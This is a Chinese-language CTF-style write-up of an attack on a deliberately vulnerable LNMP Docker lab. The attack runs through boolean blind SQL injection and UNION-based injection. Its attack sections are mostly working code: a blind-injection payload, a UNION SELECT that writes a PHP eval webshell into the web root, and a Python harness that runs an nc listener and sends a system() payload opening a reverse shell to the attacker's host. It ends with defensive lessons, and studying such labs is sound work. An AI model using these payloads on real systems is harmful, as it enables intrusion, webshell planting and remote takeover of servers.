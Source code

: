 # <center>基于SQL布尔盲注与联合查询的WEB渗透</center>

### 0x00 靶机环境

* 基于`LNMP`框架，通过`GET`方式提交参数`id`

* 靶机源码：`./target`

* 渗透程序源码：`./poc/sqli-getshell.py`

* 靶机编译方式：
  
  ```bash
  cd ./target
  docker-compose up -d
  sudo chmod 777 www -R
  # 给 www 写权限，便于后续webshell写入
  ```

![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbjsuiebj30mk0b3ta1.jpg)

* 在手动测试时没有检测到`WAF`，`union select`正常执行，可以联合查询注入
* 查询错误不回显错误信息，仅返回`WRONG`，无法进行报错注入，可以布尔盲注
* `load_file("/etc/passwd")`可执行，`into outfile('/tmp/tmp')`可执行，有机会写入`WEBSHELL`
* 注入`version()`命令，查询到`MySQL`的版本较低，植入的`WEBSHELL`可能具有`644`及以上的权限，外部用户可读

### 0x02 靶机源码分析

* `./mysql/init/privileges.sql`：授予所有用户`file`权限
  
  ![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbkltmckj30gk03iwfy.jpg)

* `./mysql/my.cnf`：关闭`MySql`文件读写控制
  
  ![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbl180yxj30i605qwgh.jpg)
  
  `./php/Dockerfile`：`php`容器中安装了`netcat`，可以执行`nc`命令反弹`shell`
  
  
  
  ![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hblq8hk8j30la02dt9p.jpg)

* `./docker-compose.yml`：`php`与`mysql`容器同时映射了`/var/www/html`，可以直接将`WEBSHELL`写入站点根目录；同时，`MySQL`版本为5，导出的`WEBSHELL`外部用户可读，即`php`解释器可解释
  
  ![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbm7f5opj30la0h544v.jpg)

### 0x03 渗透脚本编写

* 源码：`./poc/sqli-getshell.py`

* 整个攻击脚本使用`Python3`编写，主要利用`requests`库与服务器交互

* 由于涉及`os.system('nc xxx')`等命令，脚本需要在`Linux`环境下运行

#### A. 布尔盲注获取数据

* 核心`payload`：`and`拼接注入的命令，利用`ascii()`与`substr()`等函数逐字符猜测，循环测试得到所需信息
  
  ```sql
  ?id=1 and ascii(substr(database(),{index},{index}))<{x}--+
  ```

#### B. 联合查询写入木马

* 核心`payload`：通过`union select`，将一句话木马写入后端服务器
  
  ```sql
  ?id=2988 union select 1,2, \"<?php eval(@$_POST['xiabee']);?>\" into outfile '/var/www/html/{}'
  ```

* 木马随机命名，避免重复执行时因文件名冲突而异常终止：
  
  ```python
  filename = rand_str(6)+'.php'
  ```

#### C. PYTHON 开启本地NC

* 核心`payload`：打开`nc`监听，等待受害者机器上线
  
  ```python
  os.system('nc -nvlp {port}'.format(xport))
  ```

#### D. PHP 命令反弹SHELL

* 核心`payload`：由上述代码可知，变量`$xiabee`可以实现任意命令执行，这里通过`python`的`requests`发送`php`的`system()`命令，实现`nc`，连接攻击者主机：
  
  ```python
  payload = "system(\'nc -v {ip_of_attacker} {port} -e /bin/bash\');"
  data = {'xiabee': payload}
  r = requests.post(url = new_url, data = data)
  ```

#### E. FORK() 开启子进程

* 由于需要本地开启`nc`，会导致进程阻塞，无法发送`payload`，故通过`os.fork()`开启子进程，通过两个进程分别执行`nc`和`send payload`

* 需要确保`nc`开启后再发送`payload`，故在`send payload`进程中`sleep`一段时间 
  
  ```python
  pid = os.fork()
  if pid != 0:
      os.system('nc -nvlp {}'.format(xport))
  else:
      time.sleep(8)
      # sleep until nc process already started
      data = {'xiabee': payload}
      r = requests.post(url = new_url, data = data)
  ```

#### F. 输出优化

* 保留并输出部分布尔盲注过程，减少程序停顿时间，便于攻击者观察程序是否正在运行

* 添加`[+][-]`等标记，便于观察程序`CLI`输出
  
  ![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbmki1shj30lb0ayag8.jpg)

### 0x04 渗透结果

* 查询整个`security`库，包含`user, flag`等表单，获得核心表单`flag`表的`flag`字段：`FLAG{W2LC0M2_T@_THE_CTF_W021D!}`

![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbmt5582j30ly0e0tig.jpg)

* 写入`WEBSHELL`并解析，反弹`shell`成功

![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbn0bd63j30m70cjagy.jpg)

* `WEBSHELL`命令执行成功，拿下容器控制权：

![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbn8zg5aj30lq0nmgzr.jpg)

### 0x05 渗透心得

* 本次`SQL`注入原理比较简单，仅通过布尔盲注和联合查询进行各项操作，但环境的搭建远比我想象的复杂的多......最开始直接运行去年编写的[`LNMP`环境](https://github.com/xiabee/LNMP-Docker)，发现`libssl`库更新，导致`php`容器无法运行......最后被迫在`Dockerfile`中写入手动安装旧版本`libssl`的命令
* 在注入的实践过程中也遇到了许多问题：比如`WEBSHELL`写入无回显，重复执行导致命名冲突；`nc`阻塞进程，导致`payload`无法发送等......后面联想到操作系统课程中学到的进程通信等知识，意识到可以通过创建子进程来处理阻塞的问题；而随机化文件名是迫不得已，虽然巧妙的避开的重名的风险，但是每次执行都产生新的`WEBSHELL`，实战中会增加被受害者发现的可能性，实验中也增加了删除废弃`WEBSHELL`的工作量......
* 有输入的地方就有攻击，有服务的地方就有攻击面......自己编写服务程序时需要多加注意，努力减小攻击面

### 0x06 渗透总结

* 容器隔离具有局限性，不同容器拥有相同的目录映射时，会增大攻击面，可能会导致容器间的攻击
* 外部用户拥有站点根目录的写入权限时，给`getshell`创造了可能
* `Mysql`服务开启任意文件读写后需及时关闭，否则极大增加攻击面